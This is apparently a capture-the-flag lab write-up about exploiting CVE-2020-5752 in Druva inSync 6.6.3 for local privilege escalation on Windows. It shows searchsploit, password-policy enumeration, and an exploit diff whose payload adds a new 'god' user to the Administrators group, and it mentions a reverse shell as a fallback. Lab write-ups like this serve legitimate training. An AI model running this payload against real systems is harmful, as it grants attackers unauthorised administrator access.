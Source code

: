 Clone the exploit poc

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ searchsploit -m 49211
  Exploit: Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)
      URL: https://www.exploit-db.com/exploits/49211
     Path: /usr/share/exploitdb/exploits/windows/local/49211.ps1
    Codes: CVE-2020-5752
 Verified: False
File Type: ASCII text
Copied to: /home/kali/thm/49211.ps1
```

Enumerate password policy on target

```bash
PS C:\Users\thm-unpriv> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    Never
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        SERVER
The command completed successfully.
```

Modify the code

```bash
vi 49211.ps1
```

> Showing diff

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ diff /usr/share/exploitdb/exploits/windows/local/49211.ps1 49211.ps1
1,12d0
15c3
< $cmd = "net user pwnd /add"
---
> $cmd = "net user god god /add && net localgroup Administrators god /add"
```

> [!NOTE] Note
> If password was not set, `runas` will show the error: 
> ```bash
> PS C:\Users\thm-unpriv> runas /user:god "powershell.exe"
Enter the password for god:
Attempting to start powershell.exe as user "WPRIVESC3\god" ...
RUNAS ERROR: Unable to run - powershell.exe
1327: Account restrictions are preventing this user from signing in. For example: blank passwords aren't allowed, sign-in times are limited, or a policy restriction has been enforced.
> ```
> If adding admin user failed, just use revshell instead.

